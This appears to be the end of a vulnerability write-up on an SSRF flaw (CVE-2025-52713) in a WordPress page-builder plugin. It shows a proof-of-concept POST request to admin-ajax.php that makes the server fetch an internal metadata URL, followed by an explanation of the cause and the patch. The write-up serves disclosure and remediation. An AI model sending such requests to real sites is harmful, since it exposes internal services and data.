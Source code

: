 Send a POST request with the URL pointing to the local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C07a62e731a6142aa7b15555fdd5e1cbdd114cffb4a041ba0ecd9394c8319bb3f; wp-settings-time-2=1761643645; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C450b8e4bb8ebb335d435b94645ae098cee383a09a6e129efbdec8a2348deeda0
...

action=boldgrid_redirect_url&urls[0]=http://localhost:8001/metadata&boldgrid_gridblock_image_ajax_nonce=482dbb1ed2
```

**Result**:

![Result](result.png "Content read from local service")

## Conclusion

The vulnerability **CVE-2025-52713** stems from `get_redirect_url()` in the **BoldGrid Post and Page Builder** plugin (≤ 1.27.8) issuing HTTP requests to user-supplied URLs without validation or restrictions, resulting in **SSRF**. An attacker with **Contributor** privileges and a valid nonce can force the server to request internal addresses. The patch (1.27.9) fixes this by using `esc_url_raw()` and `wp_safe_remote_head()` with `timeout` and `redirection` limits to prevent unsafe requests.

## Key takeaways

* Cause: missing validation and sanitization of user-provided URLs.
* Nonce only protects against CSRF, not SSRF.
* Impact: **Low (6.4)** but may lead to internal data disclosure.
* Update to **v1.27.9** to remediate.
* Development best practice: always use safe APIs (`wp_safe_remote_*`) and sanitize URLs with `esc_url_raw()`.
